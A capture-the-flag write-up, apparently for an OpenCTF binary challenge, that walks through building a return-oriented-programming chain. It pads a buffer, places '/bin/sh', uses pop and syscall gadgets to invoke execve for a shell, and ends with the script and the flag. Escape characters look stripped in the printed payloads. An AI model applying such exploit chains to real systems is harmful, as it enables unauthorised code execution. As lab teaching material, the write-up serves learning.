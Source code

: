 ```
payload = ''
payload += '/bin/shx00'
payload += p64(0x00)
payload += 'A'*(88-len(payload))
```

And memory locations:

```
0x631080: '/bin/shx00'
0x631088: 'x00x00x00x00x00x00x00x00'
```

And as I mentioned above, `rdi` is already pointing to the beginning of my payload, which is now `/bin/shx00`. So we need a gadget for setting the following registers, `rax`, `rsi`, and `rdx`, and of course, the syscall gadget.

The `pop` instruction will be the easiest for us, so I simply grepped the text dump for pop. Since we decoded the instructions as x86, we’ll be looking for the x86 registers. There are duplicates, but these were the ones I happend to grab:

```
GADGETS_BASE    = 0x601080
GADGET_POP_EAX  = GADGETS_BASE + 0x7609#:    58                      pop    %eax
GADGET_POP_ESI  = GADGETS_BASE + 0x761b#:    5e                      pop    %esi
GADGET_POP_EDX  = GADGETS_BASE + 0x760f#:    5a                      pop    %edx
GADGET_SYSCALL  = GADGETS_BASE + 0x2d0f#:    0f 05                   syscall
```

Finally, we are ready to put everything together for the complete ROP chain:

```
p = getp()

payload = ''
payload += '/bin/shx00'
payload += p64(0x00)
payload += 'A'*(88-len(payload))
payload += p64(GADGET_POP_EAX)
payload += p64(59)
payload += p64(GADGET_POP_ESI)
payload += p64(0x631088)
payload += p64(GADGET_POP_EDX)
payload += p64(0x631088)
payload += p64(GADGET_SYSCALL)

p.sendline(payload)
```

**Full Script Download:** babys\_first\_rop\_pwner.py

# Flag

**OpenCTF{Itz\_0nly\_45\_c0Mpl1c4t3d\_as\_you\_want\_itTOBE}**
